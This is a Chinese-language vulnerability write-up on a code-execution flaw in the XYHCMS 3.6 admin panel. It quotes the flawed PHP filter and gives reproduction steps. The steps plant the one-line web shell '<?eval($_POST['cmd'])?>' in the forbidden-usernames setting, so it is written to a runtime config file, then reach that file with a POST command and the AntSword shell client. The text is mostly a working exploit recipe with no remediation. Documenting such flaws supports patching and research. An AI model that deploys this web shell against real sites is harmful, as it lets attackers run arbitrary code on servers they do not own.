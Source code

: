 XYHCMS 3.6 后台代码执行漏洞（二）
=================================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.6

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/SystemController.class.php`

    public function site() {
            if (IS_POST) {
                $data = I('config', array(), 'trim');
                //<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>
                $preg_param = '/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>/is';
                foreach ($data as $key => $val) {
                    if (stripos($val, '<?php') !== false) {
                        $data[$key] = preg_replace('/<\?php(.+?)\?>/i', '', $val);
                    }
    ————————————————————————————————————————————————————————————————————————————
                    if (stripos($val, '<script') !== false && stripos($val, 'php') !== false) {
                        $data[$key] = preg_replace('/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>/i', '', $val);
                    }
                    if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                        $this->error('禁止输入php代码');
                    }
                }
                ————————————————————————————————————————————————————————————————————————————

### 漏洞复现

1.  进入后台

2.  系统设置-\>网站设置-\>会员配置-\>禁止使用的名称   
![[../resource/XYHCMS3.6后台代码执行漏洞(二)/media/rId26.png]]
 
-   <?eval($_POST['cmd'])?>

3.  访问漏洞文件,蚁剑连接

-   `http://localhost/App/Runtime/Data/config/site.php`

    POST数据：`cmd=phpinfo();`
